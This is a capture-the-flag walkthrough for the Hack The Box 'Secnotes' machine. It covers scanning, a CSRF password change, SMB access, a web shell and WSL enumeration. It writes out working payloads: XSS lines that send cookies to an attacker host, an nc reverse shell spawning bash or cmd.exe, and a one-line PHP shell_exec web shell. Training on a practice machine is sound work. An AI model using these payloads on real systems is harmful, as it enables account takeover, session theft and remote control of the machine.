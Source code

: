 # Secnotes Hack The Box Tips

# ${\color{purple}Initial Recon}\ $

``nmap -sC -sV -oA secnotes 10.10.10.97 -T4``

![image](https://user-images.githubusercontent.com/123066149/222884008-60c410d5-2f11-4ba0-9ca0-4e923373cffc.png)

``nmap -p- -sV -oA fullsecnotes 10.10.10.97 -T4``

![image](https://user-images.githubusercontent.com/123066149/222884018-91569f20-cedb-46b9-9601-867252fa1fb7.png)

``nmap -p 8808 10.10.10.97 -sC -sV``

![image](https://user-images.githubusercontent.com/123066149/222884064-c39d198f-5031-4133-b41a-ef1cdf261e42.png)

``wfuzz -c -w /opt/seclists/Usernames/Names/names.txt -d"username=FUZZ&password=azeazeazeaze" --hs "No account found with that username." http://10.10.10.97/login.php``

``gobuster dir -u http://10.10.10.97/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x php,asp,a
spx,txt``

![image](https://user-images.githubusercontent.com/123066149/222884045-90de364f-d65c-40aa-803e-7cef2ac312ef.png)

# ${{\color{purple}Initial Foothold}}\ $

![image](https://user-images.githubusercontent.com/123066149/222884398-3d10dbcb-9038-4dc5-88a3-5a2f0386419e.png)

![image](https://user-images.githubusercontent.com/123066149/222884441-4976e0f1-db29-46d6-a53d-79efe6cbf118.png)

![image](https://user-images.githubusercontent.com/123066149/222884462-7bd86f37-7fc8-4a1e-9c5f-f3048c40eb2e.png)

![image](https://user-images.githubusercontent.com/123066149/222884505-b9b91d4c-2550-41d4-8777-40bfc4c59c08.png)

### After registering an account and gaining access to the web application, additional functionality to

### Create notes, change password and a contact form are available. The user "tyler" is referenced.

![image](https://user-images.githubusercontent.com/123066149/222885036-d2586f9f-8521-41c2-8284-60592b21eaa6.png)

![image](https://user-images.githubusercontent.com/123066149/222885060-cdfe8f36-f9ad-4354-b31f-9a3b648ebf32.png)

![image](https://user-images.githubusercontent.com/123066149/222885186-d35f0e8f-99ea-4de2-9793-959ec4bdd345.png)

``azeazeaz<h1>MONKMODE</h1>zeeaze``

``<img src=http://10.10.16.2:800/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.16.2'$IFS'2222')>``

``<script> window.open(‘http://10.10.16.2:800/xss.php?a=’+document.cookie) </script>``

``<script> window.open(‘http://votresite.com/xss.php?a=’+document.cookie) </script>``

``<img src=http://10.10.16.2:800/?cookie='+document.cookie)>``

![ssrf](https://user-images.githubusercontent.com/123066149/222884580-628295fc-cbd2-4641-bada-5f93810077c1.PNG)

``<img src=(http://10.10.10.97/change_pass.php?password=testtest&confirm_password=testtest&submit=submit)>``

``http://10.10.10.97/change_pass.php?password=testtest&confirm_password=testtest&submit=submit``

### Weak Password Change Mechanism

### A common issue with password change mechanisms is a failure to validate that the user knows
### the existing password. Password recovery mechanisms also allow users to change their
### password without knowing the existing password, but may require an additional verification step,
### such as sending the reset request to the email address associated with the username. If a
### malicious user gets a victim to click on a malicious password change request, and validation of
### the existing password is not required, then they may be able to take control of the account.

![requet](https://user-images.githubusercontent.com/123066149/222884690-fc91298e-7252-4aa9-a2f3-8fef8ac1cf10.PNG)

``http://10.10.16.2:50/tryfortest.txt``                                     
                                        
![image](https://user-images.githubusercontent.com/123066149/222884761-67e09b9e-ee7f-4044-bb1c-2eb4799a02c3.png)
 
``nc -nvlp 50``

### Cross-Site Request Forgery (CSRF)

### The "Contact Us" form is directed to tyler, and if a malicious password reset request is sent to this
### user, they might click the link. CSRF tokens would defend against this attack, but they haven’t
### been implemented in the web application. In Burp, the "Change Password" request type is
### changed from POST to GET, and the malicious URL is constructed.

![3](https://user-images.githubusercontent.com/123066149/222884822-c8321bea-a8d3-41e0-9197-9e47b8e207d0.PNG)

``http://10.10.10.97/change_pass.php?password=testtest&confirm_password=testtest&submit=submit``    

### The URL is pasted into the message body of the Contact request, and after a short while the
### credentials tyler:testtest can be used to log into the website.

![4](https://user-images.githubusercontent.com/123066149/222884881-42e06240-3c2a-4363-a374-c092f925050b.PNG)

### Once logged in, credentials to access a SMB share are found.
 
![image](https://user-images.githubusercontent.com/123066149/222884939-5aca6d35-a3a1-44d2-be32-765eb2e3c451.png)                                       
                                        
# ${{\color{purple}Exploitation}}\ $
 
``smbclient -U 'tyler' //10.10.10.97/new-site``                                      
                                        
![image](https://user-images.githubusercontent.com/123066149/222890282-4e9f5ae1-159c-47cc-a0e1-7b94954f5a50.png)
  
### I used this web shell which worked :

![image](https://user-images.githubusercontent.com/123066149/222894266-38576b90-22a8-4f6d-b431-8193a765b3b0.png)

### This webshell could also work

``<?php echo shell_exec($_GET["c"]); ?>``  

### Upgrade Webshell to Reverse Shell

![image](https://user-images.githubusercontent.com/123066149/222890258-a516a07a-8ed6-4541-ad06-7f976eb74288.png)

![image](https://user-images.githubusercontent.com/123066149/222890342-17ee1e4c-bf9b-4796-9ea5-4256f7e1ead0.png)

``http://10.10.10.97:8808/php_cmd.php?cmd=nc.exe%2010.10.16.2%201234%20-e%20cmd.exe``
                    
![image](https://user-images.githubusercontent.com/123066149/222890381-e2f09cd0-4d2b-4535-bf1c-8c565d380b14.png)
                   
# ${{\color{purple}Privilege Escalation}}\ $

### Enumeration of the C:\ reveals the file "Ubuntu.zip" and a "Distros\Ubuntu" folder. Potentially
### Windows Subsystem for Linux (WSL) has been installed?

![image](https://user-images.githubusercontent.com/123066149/222890424-70d67952-7335-4f72-bb1e-c7449659e818.png)
 
### The Linux filesystem is enumerated.

``ls C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs``

![image](https://user-images.githubusercontent.com/123066149/222891298-07eeb349-09d1-495e-b025-1408516d3f6b.png)                   

# ${{\color{purple}Points of Improvement}}\ $
* There are several techniques to protect yourself from the XSS flaw:
-   The htmlspecialchars() function converts special characters into HTML entities.
-   htmlentities() which is identical to htmlspecialchars() except that it filters all characters equivalent to html or javascript coding.
-   strip_tags(), this function removes all tags.

* There was no CSRF token in the request
* it's possible to change the request method in burp
* There was another way to gain access to the share :

![image](https://user-images.githubusercontent.com/123066149/222894535-75d500df-752d-4782-b081-e575bdf5f6fa.png)

![image](https://user-images.githubusercontent.com/123066149/222894541-e612b38d-cb8a-4601-adff-8baefa71a814.png)

![image](https://user-images.githubusercontent.com/123066149/222894553-0c90f351-5a39-4114-8b27-e89149e7a14f.png)


